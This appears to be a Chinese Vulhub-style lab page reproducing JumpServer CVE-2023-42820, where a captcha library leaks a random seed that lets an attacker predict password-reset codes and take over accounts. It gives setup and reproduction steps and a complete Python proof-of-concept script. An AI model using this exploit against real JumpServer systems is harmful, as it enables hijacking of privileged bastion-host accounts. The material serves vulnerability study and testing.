

JumpServer 随机数种子泄露导致账户劫持漏洞 CVE-2023-42820¶
漏洞描述¶
JumpServer是一个开源堡垒机系统。在其3.6.4及以下版本中，存在一处账户接管漏洞。攻击者通过第三方库django-simple-captcha泄露的随机数种子推算出找回密码时的用户Token，最终修改用户密码。
参考链接：
- https://github.com/jumpserver/jumpserver/security/advisories/GHSA-7prv-g565-82qp
- https://mp.weixin.qq.com/s/VShjaDI1McerX843YyOENw
- https://www.leavesongs.com/PENETRATION/jumpserver-sep-2023-multiple-vulnerabilities-go-through.html
环境搭建¶
Vulhub启动环境前，修改config.env中DOMAINS的值为你的IP和端口，如DOMAINS=your-ip:8080。
执行如下命令启动一个JumpServer 3.6.3 的服务器：
docker compose up -d
启动服务需要等待一段时间，之后访问http://your-ip:8080即可查看到JumpServer的登录页面。我们使用admin作为账号及密码即可登录，第一次登录管理员账号需要修改密码。
漏洞复现¶
使用Vulhub半自动化脚本复现漏洞。由于是半自动化，严格按照如下步骤方可正确复现。
首先，在浏览器第一个Tab中打开忘记密码页面：http://your-ip:8080/core/auth/password/forget/previewing/，此时页面上将有一个验证码。
- 如果验证码中包含数字10，则请刷新验证码，因为我们的脚本暂时无法处理数字10
- 如果验证码中不包含数字10，则右键菜单中将该验证码在新Tab下打开
新Tab中验证码的URL类似于http://your-ip:8080/core/auth/captcha/image/87b2723d404657c2294abfab908975ebb9da5468/，其中包含该验证码的key（一串sha1 hash值），也就是后面伪随机数使用的种子，记录下这个值作为**seed**。
返回第一个Tab，刷新页面。刷新页面的目的是，不使用包含“种子”的验证码，因为这个种子将在后续步骤中使用到。
刷新页面后正确填写用户名和验证码后提交，跳转到验证码验证页面。此时这个页面的URL类似于http://your-ip:8080/core/auth/password/forgot/?token=sceOx7yWuAH9wWcuzc0nMQmLBzEPNhkhuTfl，其中包含一个随机的token值，记录下这个值作为**token**。
执行脚本：
python poc.py -t http://your-ip:8080 --email admin@whoami.com --seed [seed] --token [token]
这个脚本需要传入4个参数：
-t指定目标JumpServer服务器地址--email指定待劫持用户的邮箱地址--seed前面记下来的随机数种子（seed）--token前面记下来的token值（token）
环境启动失败（mariadb redis版本问题，修改版本启动后服务自动退出）。原docker-compose.yml中版本为：mariadb:10.11.5、redis:6.2.13
待复现，以下为Vulhub截图。
脚本执行后，将输出预测的code值：

回到浏览器中，输入该code提交，即可来到修改新密码页面，修改密码即可。

漏洞POC¶
import requests
import logging
import sys
import random
import string
import argparse
from urllib.parse import urljoin
logging.basicConfig(stream=sys.stdout, level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
string_punctuation = '!#$%&()*+,-.:;<=>?@[]^_~'
def random_string(length: int, lower=True, upper=True, digit=True, special_char=False):
args_names = ['lower', 'upper', 'digit', 'special_char']
args_values = [lower, upper, digit, special_char]
args_string = [string.ascii_lowercase, string.ascii_uppercase, string.digits, string_punctuation]
args_string_map = dict(zip(args_names, args_string))
kwargs = dict(zip(args_names, args_values))
kwargs_keys = list(kwargs.keys())
kwargs_values = list(kwargs.values())
args_true_count = len([i for i in kwargs_values if i])
assert any(kwargs_values), f'Parameters {kwargs_keys} must have at least one `True`'
assert length >= args_true_count, f'Expected length >= {args_true_count}, bug got {length}'
can_startswith_special_char = args_true_count == 1 and special_char
chars = ''.join([args_string_map[k] for k, v in kwargs.items() if v])
while True:
password = list(random.choice(chars) for i in range(length))
for k, v in kwargs.items():
if v and not (set(password) & set(args_string_map[k])):
# 没有包含指定的字符, retry
break
else:
if not can_startswith_special_char and password[0] in args_string_map['special_char']:
# 首位不能为特殊字符, retry
continue
else:
# 满足要求终止 while 循环
break
password = ''.join(password)
return password
def nop_random(seed: str):
random.seed(seed)
for i in range(4):
random.randrange(-35, 35)
for p in range(int(180 * 38 * 0.1)):
random.randint(0, 180)
random.randint(0, 38)
def fix_seed(target: str, seed: str):
def _request(i: int, u: str):
logging.info('send %d request to %s', i, u)
response = requests.get(u, timeout=5)
assert response.status_code == 200
assert response.headers['Content-Type'] == 'image/png'
url = urljoin(target, '/core/auth/captcha/image/' + seed + '/')
for idx in range(30):
_request(idx, url)
def send_code(target: str, email: str, reset_token: str):
url = urljoin(target, "/api/v1/authentication/password/reset-code/?token=" + reset_token)
response = requests.post(url, json={
'email': email,
'sms': '',
'form_type': 'email',
}, allow_redirects=False)
assert response.status_code == 200
logging.info("send code headers: %r response: %r", response.headers, response.text)
def main(target: str, email: str, seed: str, token: str):
fix_seed(target, seed)
nop_random(seed)
send_code(target, email, token)
code = random_string(6, lower=False, upper=False)
logging.info("your code is %s", code)
if __name__ == "__main__":
parser = argparse.ArgumentParser(description='Process some integers.')
parser.add_argument('-t', '--target', type=str, required=True, help='target url')
parser.add_argument('--email', type=str, required=True, help='account email')
parser.add_argument('--seed', type=str, required=True, help='seed from captcha url')
parser.add_argument('--token', type=str, required=True, help='account reset token')
args = parser.parse_args()
main(args.target, args.email, args.seed, args.token)